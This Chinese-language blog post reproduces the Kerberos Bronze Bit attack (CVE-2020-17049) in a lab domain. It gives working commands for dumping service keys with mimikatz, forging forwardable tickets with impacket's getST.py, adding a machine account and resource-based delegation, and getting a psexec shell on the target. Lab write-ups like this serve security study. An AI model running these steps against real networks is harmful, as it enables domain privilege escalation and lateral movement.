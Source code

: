 ```yaml
---
title: "Kerberos Bronze Bit Attack 绕过约束委派限制" # Title of the blog post.
date: 2020-12-22T10:51:18+08:00 # Date of post creation.
featured: false # Sets if post is a featured post, making appear on the home page side bar.
draft: false # Sets whether to render this page. Draft of true will not be rendered.
comment: true
tags:
- Kerberos
series:
- Windows协议
categories:
- 渗透测试
---
```



Kerberos Bronze Bit Attack又称Kerberos青铜比特攻击，由国外netspi安全研究员Jake Karnes发现的漏洞，并且申请了CVE-2020-17049编号。

<!--more-->

# 概述
该漏洞解决了两个问题

1. 禁止协议转换/协议过渡
2. 受保护的用户和敏感用户不能被委派

具体设置表现为DC上设置Service1计算机账户为“仅使用Kerberos”而非“使用任何身份验证协议”
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/881ce2ca-a6e9-3721-a663-51db3dc7113d.png)

spn服务账户sql设置为“敏感用户不能被委派”或者添加到“受保护的组”中（两者任选其一）
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/afde25f8-059a-3d1a-5a67-cd4444a3cf85.png)

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/a2755a89-6d5d-40fa-900a-8b2c1cd26e6a.png)

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/2e35318e-a14a-2178-743e-ce9a6559ff91.png)


利用场景：
1. 传统的约束委派
2. 基于资源的约束委派（滥用域账户的MachineAccountQuota属性）

下面进行复现

# 传统的约束委派绕过
模拟场景

1. 已经爆破了一个用户jack@test.local 密码为`test123!@#`
2. 拿到Service1的hash
3. Service1对Service2有信任的约束关系
4. 攻击者充当Service1向Service2申请票据从而ptt到Service2

首先尝试常规的约束委派利用（[参考我之前的文章](https://y4er.com/post/kerberos-constrained-delegation/)）

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/1582ae42-8b9b-e59f-99de-a7edcf315f8c.png)
报错，说明这是“敏感用户不能被委派”和“受保护的组”的原因。

然后尝试Kerberos Bronze Bit Attack

首先需要Service1的hash和aeskey（这里可以通过提权获取Service1的hash，我这里使用Service1的本地管理员账号抓取）

```
runas /user:Service1\administrator mimikatz
privilege::debug
sekurlsa::ekeys
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5c06b5ee-596f-7fd7-2c98-edf332a400ad.png)

然后使用最新版的impacket请求票据

```
python3 getST.py -spn cifs/Service2.test.local -impersonate administrator -hashes AAD3B435B51404EEAAD3B435B51404EE:aa09cecb1728cd5cad6e779c7f370563 -aesKey 71f9caf9203575bbbe760e6a669d90cbe39be0b5a442496295e2f63990ee858f test.local/Service1 -force-forwardable
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/bf62dc9f-5e07-83a7-027e-e42db5c29c15.png)

这样绕过了“敏感用户不能被委派”和“受保护的组”利用约束委派拿下来了Service2。

# 基于资源的约束委派绕过
先配置环境，首先删除上一步service1的委派权限
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/fd401ea4-0a55-bcfa-2058-bdc98b688f3b.png)

用adsi编辑器赋予域用户jack对service2写入权限
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/4bf0c21f-aca5-5e09-ee95-b4314752bf18.png)

开始利用，首先需要通过powermad新加入一个计算机账户AttackerService，密码为AttackerServicePassword，用域账户jack登录service1

```
Import-Module .\Powermad\powermad.ps1
New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d0b3dd3b-079d-1cd6-97a9-9aeba13464f5.png)

因为密码是我们自定义的，所以可以用mimikatz计算出hash

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b8b19e1e-3234-f831-09f0-68a8e0676dc4.png)

然后使用PowerShell Active Directory模块添加基于资源的约束委派，即从AttackerService到Service2的传入信任关系。

`Microsoft.ActiveDirectory.Management.dll`在安装powershell模块Active Directory后生成，默认只在域控上有，可以从域控上导出。

```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Get-ADComputer AttackerService #确认机器账户已经被添加
Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/a3535384-5d8f-7f3c-143b-c564a1f015e8.png)

设置好基于资源的约束委派之后就可以模拟用户申请票据了。

```
python3 getST.py -spn cifs/Service2.test.local -impersonate administrator -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardable
```
hashes和aesKey参数来自于添加的机器用户AttackerService，mimikatz可以计算。

```
export KRB5CCNAME=administrator.ccache
python3 psexec.py -no-pass -k Service2.test.local
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/cea4f8c9-4421-42a1-9ea9-e12dbe0277f5.png)

# 总结
Kerberos Bronze Bit Attack可以绕过“敏感用户不能被委派”和“受保护的组”进一步利用约束委派，扩大了Kerberos的攻击面。

# 参考
1. https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
